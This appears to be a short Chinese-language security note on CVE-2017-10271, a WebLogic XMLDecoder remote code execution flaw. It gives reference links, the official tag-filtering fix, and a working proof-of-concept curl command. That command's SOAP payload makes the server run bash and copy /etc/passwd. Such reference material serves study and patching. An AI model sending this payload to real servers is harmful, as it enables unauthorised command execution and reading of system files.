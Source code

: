 ### CVE-2017-10271 - java.beans.XMLDecoder RCE

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
* [Weblogic XMLDecoder RCE分析](http://xxlegend.com/2017/12/22/Weblogic%20CVE-2017-10271%20XMLDecoder%20RCE%E5%88%86%E6%9E%90/)

Poc

```
curl http://127.0.0.1:7011/wls-wsat/CoordinatorPortType -H 'Content-Type: text/xml' --data '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.8.0_151" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>cp /etc/passwd /tmp/hacked</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
```

官方修复方式

* 过滤了 object, new, void, method 等标签
